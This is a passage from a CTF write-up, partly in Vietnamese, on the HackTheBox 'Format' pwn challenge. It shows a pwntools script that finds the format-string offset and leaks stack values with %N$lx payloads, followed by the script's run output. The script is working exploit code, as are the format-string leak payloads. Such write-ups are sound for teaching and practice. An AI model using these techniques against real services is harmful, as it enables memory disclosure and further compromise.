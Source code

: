 ```python 

# HOST = '64.227.36.245'
# PORT = 30730

context.clear(arch="amd64")

# -----------------------
def com(payload, wait=True):
	global r
	r.sendline(payload)
	if (wait):
		return r.recv()


def nonStopLeak():
	data = []
	min_val = 1
	max_val = 50
	log.progress("Starting nonStopLeaking (range: %d to %d)..." % (min_val, max_val))
	data.append("EMPTY ON PURPOSE")
	for i in range(min_val, max_val):
		leak = "%{}$lx".format(i)
		leak = com(leak).strip().decode()
		data.append(leak)

	log.success("nonStopLeaking finalized...")
	return data


# -------------- exploit -----------------------

elf = ELF("format")

r = process("./format")
# input("[+] attach gdb")
# Launch the fmtstr exploiter
exploiter = FmtStr(com)

collected_data = nonStopLeak()
print(collected_data)
r.interactive()
```  
- Tiến hành chạy, ta được kết quả:
```bash
➜  Format git:(main) ✗ python3 exploit.py
[*] '/home/ubuntu/Edisc/CTF/pwn-college/hackthebox/Format/format'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process './format': pid 13390
[+] attach gdb
[*] Found format string offset: 6
[▆] Starting nonStopLeaking (range: 1 to 40)...
exploit.py:11: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.sendline(payload)
[+] nonStopLeaking finalized...
```